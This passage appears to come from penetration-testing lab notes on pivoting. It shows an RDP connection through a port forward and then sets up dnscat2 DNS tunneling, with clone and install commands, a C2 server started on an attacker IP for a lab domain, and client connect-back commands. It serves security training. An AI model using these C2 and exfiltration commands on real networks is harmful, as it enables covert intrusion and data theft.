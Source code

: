 Connecting to the Internal Host through the Port Forward

```
xfreerdp /v:<ip_address> /u:<username> /p:<password>
```

## DNS Tunneling with Dnscat2

Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted Command-&-Control (C&C or C2) channel and sends data inside TXT records within the DNS protocol. Usually, every active directory domain environment in a corporate network will have its own DNS server, which will resolve hostnames to IP addresses and route the traffic to external DNS servers participating in the overarching DNS system. However, with dnscat2, the address resolution is requested from an external server. When a local DNS server tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. Dnscat2 can be an extremely stealthy approach to exfiltrate data while evading firewall detections which strip the HTTPS connections and sniff the traffic. 

### Setting Up & Using dnscat2
```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

### Starting the dnscat2 server
```
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.
```
